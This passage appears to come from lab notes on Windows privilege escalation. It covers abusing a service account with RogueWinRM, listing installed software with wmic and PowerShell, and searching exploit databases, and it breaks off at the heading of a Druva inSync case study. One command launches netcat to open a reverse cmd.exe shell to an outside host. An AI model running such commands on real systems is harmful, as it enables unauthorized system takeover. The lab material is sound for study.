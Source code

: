 ```bash
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe 10.10.127.1 4447"
```

<img width="1612" height="623" alt="Screenshot 2025-08-16 184244" src="https://github.com/user-attachments/assets/e20d01af-01eb-4051-9c49-b810968fb8f6" />

## Abusing vulnerable software

### **Unpatched Software**

Some unpatched software can present various privilege escalation opportunities. List installed software and its versions with this command `wmic` 

```bash
C:\Users\thm-unpriv>wmic product get name,version,vendor
Name                                                            Vendor                                   Version
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29910     Microsoft Corporation                    14.28.29910
AWS Tools for Windows                                           Amazon Web Services Developer Relations  3.15.1248
VNC Server 6.8.0                                                RealVNC                                  6.8.0.45849
Amazon SSM Agent                                                Amazon Web Services                      3.0.529.0
aws-cfn-bootstrap                                               Amazon Web Services                      2.0.5
Druva inSync 6.6.3                                              Druva Technologies Pte. Ltd.             6.6.3.0
AWS PV Drivers                                                  Amazon Web Services                      8.3.4
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29910  Microsoft Corporation                    14.28.29910

```

Or you can use **PowerShell (Registry Check)**

```powershell
# 64-bit apps
Get-ItemProperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\*" | 
  Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | 
  Format-Table -AutoSize

# 32-bit apps (on 64-bit Windows)
Get-ItemProperty "HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | 
  Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | 
  Format-Table -AutoSize
```

then search for potential vulnerabilities in  [exploit-db](https://www.exploit-db.com/), [packet storm](https://packetstormsecurity.com/) or [Google](https://www.google.com/),

### **Case Study: Druva inSync 6.6.3**
